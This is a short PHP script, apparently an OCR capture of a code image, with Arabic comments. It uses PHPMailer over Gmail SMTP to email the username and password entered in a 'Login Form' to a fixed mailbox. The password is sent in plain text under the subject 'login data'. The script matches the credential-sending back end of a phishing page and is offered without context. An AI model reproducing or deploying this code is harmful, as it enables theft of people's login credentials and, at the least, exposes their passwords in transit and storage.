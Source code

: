 <?php
use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\Exception;

require 'path/to/PHPMailer/src/Exception.php';
require 'path/to/PHPMailer/src/PHPMailer.php';
require 'path/to/PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

try {
    $mail->isSMTP();
    $mail->Host = 'smtp.gmail.com'; // مزود SMTP الخاص بك
    $mail->SMTPAuth = true;
    $mail->Username = 'your-email@gmail.com'; // بريدك الإلكتروني
    $mail->Password = 'your-email-password'; // كلمة مرور بريدك
    $mail->SMTPSecure = PHPMailer::ENCRYPTION_STARTTLS;
    $mail->Port = 587;

    $mail->setFrom('your-email@gmail.com', 'Login Form');
    $mail->addAddress('your-email@example.com');

    $mail->isHTML(false);
    $mail->Subject = 'بيانات تسجيل الدخول';
    $mail->Body = "اسم المستخدم: $username\nكلمة المرور: $password";

    $mail->send();
    echo "تم إرسال البريد بنجاح.";
} catch (Exception $e) {
    echo "فشل إرسال البريد. الخطأ: {$mail->ErrorInfo}";
}
?>
